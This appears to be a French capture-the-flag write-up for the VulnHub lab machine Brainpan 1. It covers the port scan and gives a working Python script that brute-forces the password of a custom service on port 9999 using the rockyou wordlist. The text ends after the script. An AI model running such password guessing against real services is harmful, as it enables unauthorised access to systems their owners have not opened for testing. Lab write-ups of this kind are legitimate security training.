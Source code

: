 ```yaml
---
title: Solution du CTF Brainpan 1 de VulnHub
date: 2014-08-26 08:13:00
tags: [CTF, VulnHub]
---
```


Introduction
------------

Le challenge [Brainpan 2](http://devloop.users.sourceforge.net/index.php?article73/solution-du-ctf-brainpan2) était le 3ème CTF auquel je me suis attaqué sur *VulnHub*.  

Je ne m'étais pas encore penché sur [le premier du nom](http://vulnhub.com/entry/brainpan-1,51/), ne savant pas trop si le 2 signifiait un tout autre challenge où juste une mise à jour.  

L'expérience m'a montré que les CTF numérotés sont bien différents les un des autres bien que les deux *Brainpan* disposent de certaines caractéristiques communes.  

Déjà vu ?
---------

Le scan *Nmap* a révélé les même ports ouverts que sur *Brainpan 2* à savoir le 9999 pour un service custom et le 10000 pour un serveur web via *SimpleHTTPServer* (Python).  

Je me suis attaqué au port 999 qui ressemble fortement (là encore) à la seconde édition sauf qu'il faut ici saisir un mot de passe.  

J'ai écrit le script d'attaque force brute suivant qui a fini par trouver le mot de passe :  

```python
import socket

fd = open("rockyou.txt")

i = 0
while True:
    word = fd.readline()
    if not word:
        break

    word = word.strip()
    sock = socket.socket()
    sock.connect(('192.168.1.43', 9999))
    sock.recv(1024)
    sock.send(word + '\n')
    buff = sock.recv(1024)
    sock.close()
    if not "ACCESS DENIED" in buff:
        print "[!] Correct password is", word
        print "response:", buff
        break
    if i == 1000:
        print "[*] Testing", word
        i = 0
    i += 1
fd.close()
```
